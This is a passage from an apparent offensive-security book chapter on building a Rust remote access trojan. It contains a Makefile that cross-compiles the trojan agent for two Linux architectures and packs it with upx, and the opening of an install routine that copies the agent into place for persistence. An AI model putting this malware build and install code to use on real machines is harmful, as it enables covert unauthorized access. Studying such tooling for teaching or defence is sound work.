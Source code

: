 For that, we will use `cross` as we learned in the previous chapter.

Also, in order to reduce the bundle's size, we compress each executable with the `upx` packer.


**[ch_13/rat/Makefile](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/Makefile)**
```makefile
.PHONY: bundle
bundle: x86_64 aarch64
    rm -rf bundle.zip
    zip -j bundle.zip target/agent.linux_x86_64 target/agent.linux_aarch64


.PHONY: x86_64
x86_64:
    cross build -p agent --release --target x86_64-unknown-linux-musl
    upx -9 target/x86_64-unknown-linux-musl/release/agent
    mv target/x86_64-unknown-linux-musl/release/agent target/agent.linux_x86_64


.PHONY: aarch64
aarch64:
    cross build -p agent --release --target aarch64-unknown-linux-musl
    upx -9 target/aarch64-unknown-linux-musl/release/agent
    mv target/aarch64-unknown-linux-musl/release/agent target/agent.linux_aarch64
```

```bash
$ make bundle
```


Our `bundle.zip` file now contains:

```default
agent.linux_x86_64
agent.linux_aarch64
```

## Install

In the previous chapter, we saw how to persist across different OSes.

Now we need to add a step in our installation process: the extraction of the `bundle.zip` file.


**[ch_13/rat/agent/src/install.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/install.rs)**
```rust
pub fn install() -> Result<PathBuf, crate::Error> {
    let install_dir = config::get_agent_directory()?;
    let install_target = config::get_agent_install_target()?;

    if !install_target.exists() {
        println!("Installing into {}", install_dir.display());
        let current_exe = env::current_exe()?;

        fs::create_dir_all(&install_dir)?;

        fs::copy(current_exe, &install_target)?;

        // here, we could have fetched the bundle from a central server
        let bundle = PathBuf::from("bundle.zip");
        if bundle.exists() {
            println!(
                "bundle.zip found, extracting it to {}",
                install_dir.display()
            );

```